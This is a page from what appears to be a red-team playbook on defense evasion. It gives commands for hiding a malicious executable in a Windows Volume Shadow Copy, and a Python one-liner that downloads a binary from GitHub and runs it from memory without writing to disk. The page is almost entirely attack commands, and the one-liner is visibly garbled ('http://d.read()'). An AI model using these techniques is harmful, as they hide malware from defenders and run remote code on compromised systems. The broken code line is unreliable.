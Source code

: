 # 4.1 Defense Evasion

## Table of Contents

- [Hide Malware by using Volume Shadow Copy](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md#Hide-Malware-using-Volume-Shadow-Copy)

## Hide Malware using Volume Shadow Copy

```c
C:\> vssadmin create shadow /for=c:
C:\> vssadmin list shadows
C:\> \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\<FILE>.exe
C:\> vssadmin delete shadows /shadow=<ID>
```

#### Running Binaries without touching Disk

```c
$ python3 -c 'import os; import urllib.request; d = urllib.request.urlopen("https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap?raw=true"); fd = os.memfd_create("foo"); os.write(fd, http://d.read()); p = f"/proc/self/fd/{fd}"; os.execve(p, [p, "-h"],{})'
```

### Previous

- [4 Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4-Exploitation.md)

### Next

- [4.2 Credential Dumping](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.2-Credential-Dumping.md)
- [4.3 Privilege Escalation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.3-Privilege-Escalation.md)
- [4.4 Lateral Movement](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.4-Lateral-Movement.md)
